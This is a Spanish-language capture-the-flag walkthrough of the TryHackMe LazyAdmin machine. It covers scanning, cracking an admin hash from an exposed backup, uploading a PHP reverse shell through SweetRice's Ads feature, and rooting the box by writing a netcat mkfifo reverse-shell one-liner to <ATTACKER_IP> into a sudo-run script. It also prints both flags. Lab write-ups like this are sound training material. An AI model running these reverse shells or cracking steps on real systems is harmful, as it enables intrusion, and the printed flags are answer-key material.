# LazyAdmin CTF


---

## Fase 1 — Enumeración

### Fase 1.1 — Nmap Port Scan

**Comando ejecutado:**
```bash
# [MÁQUINA ATACANTE]
nmap -sC -sV -oN lazyadmin.nmap <TARGET_IP>
```

**Puertos descubiertos:**

| Puerto | Servicio | Versión |
|--------|----------|---------|
| 22/tcp | SSH | OpenSSH 7.2p2 Ubuntu |
| 80/tcp | HTTP | Apache 2.4.18 Ubuntu |

**Hallazgos:**
- HTTP → Apache2 Default Page → CMS oculto detrás
- SSH disponible → posible acceso con credenciales



---

### Fase 1.2 — Enumeración Web con Gobuster

**Comando ejecutado:**
```bash
# [MÁQUINA ATACANTE]
gobuster dir -u http://<TARGET_IP> \
             -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt \
             -x php,txt,html \
             -t 50
```

**Directorios descubiertos:**
- `/content` → Status 301 🔴 → **SweetRice CMS**

**Hallazgos:**
- CMS identificado: **SweetRice** → `Basic-CMS.ORG`
- Panel de administración accesible en `/content/as/`



---

### Fase 1.3 — Enumeración de /content

**Comando ejecutado:**
```bash
# [MÁQUINA ATACANTE]
gobuster dir -u http://<TARGET_IP>/content \
             -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt \
             -x php,txt,html \
             -t 50
```

**Directorios descubiertos:**
- `/content/as/` → Panel login SweetRice 🔴
- `/content/inc/` → Archivos internos con backup MySQL 🔴
- `/content/attachment/` → Subida de archivos
- `/content/_themes/` → Temas del CMS



---

### Fase 1.4 — Acceso a /content/inc/

**URL visitada:**
```
http://<TARGET_IP>/content/inc/
```

**Hallazgos críticos:**
- `mysql_backup/` → Directorio con backup de base de datos 🔴
- Múltiples archivos PHP del CMS expuestos



---

### Fase 1.5 — Panel Login SweetRice

**URL visitada:**
```
http://<TARGET_IP>/content/as/
```

**Hallazgos:**
- Panel de login de SweetRice accesible públicamente 🔴
- Versión: **1.5.1**



---

### Fase 1.6 — Descarga del Backup MySQL

**URL visitada:**
```
http://<TARGET_IP>/content/inc/mysql_backup/
```

**Archivo encontrado:** `mysql_bakup_20191129023059-1.5.1.sql`

**Comando ejecutado:**
```bash
# [MÁQUINA ATACANTE]
wget http://<TARGET_IP>/content/inc/mysql_backup/mysql_bakup_20191129023059-1.5.1.sql
cat mysql_bakup_20191129023059-1.5.1.sql | grep -i "admin\|pass\|user"
```

**Hallazgos críticos:**
- Usuario: `admin`
- Hash MD5: `42f749ade7f9e195bf475f37a44cafcb` 🔴



---

### Fase 1.7 — Extracción de Credenciales del Backup

**Hallazgos:**
- Usuario: `admin`
- Hash MD5 encontrado: `42f749ade7f9e195bf475f37a44cafcb`



---

### Fase 1.8 — Crackeo del Hash MD5

**Comando ejecutado:**
```bash
# [MÁQUINA ATACANTE]
echo "42f749ade7f9e195bf475f37a44cafcb" | john --format=raw-md5 \
--wordlist=/usr/share/wordlists/rockyou.txt /dev/stdin
```

**Credenciales obtenidas:**

| Campo | Valor |
|-------|-------|
| Usuario | admin |
| Hash | 42f749ade7f9e195bf475f37a44cafcb |
| **Password** | **Password123** 🔴 |



---

## Fase 2 — Foothold

### Fase 2.1 — Login en SweetRice Dashboard

**URL visitada:**
```
http://<TARGET_IP>/content/as/
# Usuario: admin
# Password: Password123
```

**Hallazgos:**
- Acceso exitoso al dashboard de SweetRice 🔴
- Versión confirmada: **1.5.1**
- Funcionalidad **Ads** → permite subir código PHP arbitrario



---

### Fase 2.2 — Configuración de Reverse Shell

**Comando ejecutado:**
```bash
# [MÁQUINA ATACANTE]
cp /usr/share/webshells/php/php-reverse-shell.php shell.php
nano shell.php
# Cambiar: $ip = '<ATTACKER_IP>' y $port = 4444
```

**Hallazgos:**
- IP y puerto configurados correctamente en la shell PHP



---

### Fase 2.3 — Upload de Shell via Ads

**Pasos:**
1. Dashboard → **Ads** → **Add**
2. **Ads name:** `shell`
3. **Ads code:** pegar contenido completo de `shell.php`
4. Clic en **Done**

**Shell accesible en:**
```
http://<TARGET_IP>/content/inc/ads/shell.php
```



---

### Fase 2.4 — Ejecución de Reverse Shell

**Paso 1 — Listener en Kali:**
```bash
# [MÁQUINA ATACANTE]
nc -lvnp 4444
```

**Paso 2 — Ejecutar desde el navegador:**
```
http://<TARGET_IP>/content/inc/ads/shell.php
```

**Hallazgos:**
- Reverse shell recibida como `www-data` 🔴



---

### Fase 2.5 — Estabilización y User Flag

**Comando ejecutado:**
```bash
# [MÁQUINA OBJETIVO]
python3 -c 'import pty;pty.spawn("/bin/bash")'
export TERM=xterm
find / -name "user.txt" 2>/dev/null
cat /home/itguy/user.txt
```

**Hallazgos adicionales en /home/itguy:**
- `backup.pl` → script Perl ejecutable
- `mysql_login.txt` → credenciales MySQL
- `user.txt` → flag de usuario

**User Flag:**
```
THM{63e5bce9271952aad1113b6f1ac28a07}
```



---

## Fase 3 — Escalada de Privilegios

### Fase 3.1 — Identificación del Vector PrivEsc (sudo -l)

**Comando ejecutado:**
```bash
# [MÁQUINA OBJETIVO]
sudo -l
```

**Hallazgo crítico:**

| Usuario | Comando | Privilegio |
|---------|---------|------------|
| www-data | `/usr/bin/perl /home/itguy/backup.pl` | **NOPASSWD root** 🔴 |



---

### Fase 3.2 — Análisis de backup.pl y copy.sh

**Comando ejecutado:**
```bash
# [MÁQUINA OBJETIVO]
cat /home/itguy/backup.pl
cat /etc/copy.sh
```

**Hallazgos:**
- `backup.pl` → ejecuta `system("sh", "/etc/copy.sh")` como root
- `/etc/copy.sh` → contiene reverse shell con IP incorrecta → **escribible por www-data** 🔴

**Vector:** sobreescribimos `/etc/copy.sh` con nuestra IP → ejecutamos `backup.pl` como root → shell de root



---

### Fase 3.3 — Inyección en copy.sh y Shell Root

**Paso 1 — Listener en Kali:**
```bash
# [MÁQUINA ATACANTE]
nc -lvnp 5554
```

**Paso 2 — Sobreescribir copy.sh y ejecutar:**
```bash
# [MÁQUINA OBJETIVO]
echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <ATTACKER_IP> 5554 >/tmp/f" > /etc/copy.sh
cat /etc/copy.sh
sudo /usr/bin/perl /home/itguy/backup.pl
```

**Hallazgos:**
- Shell de root recibida en el listener del puerto 5554 🔴



---

### Fase 3.4 — Root Flag

**Comando ejecutado:**
```bash
# [MÁQUINA OBJETIVO - como ROOT]
whoami
cat /root/root.txt
```

**Root Flag:**
```
THM{6637f41d0177b6f37cb20d775124699f}
```


